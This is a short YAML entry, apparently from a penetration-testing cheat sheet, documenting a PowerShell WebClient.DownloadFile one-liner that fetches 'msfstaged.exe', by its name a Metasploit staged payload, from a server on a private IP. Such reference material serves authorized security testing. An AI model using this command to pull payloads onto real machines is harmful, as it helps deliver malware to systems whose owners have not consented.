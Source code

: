```yaml
---
description: |
  (New-Object Net.WebClient).DownloadFile is a PowerShell command that uses the .NET WebClient class to download a file from the server and saves it in a local directory.

  Command Reference:

  	Webserver: http://172.16.56.128:8999/msfstaged.exe

  	File name: msfstaged.exe

command: |
  (New-Object Net.WebClient).DownloadFile('http://172.16.56.128:8999/msfstaged.exe', 'msfstaged.exe')
items:
  - Shell
OS:
  - Windows
attack_types:
  - General
references:
  - https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-7.0
  - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters
---
```

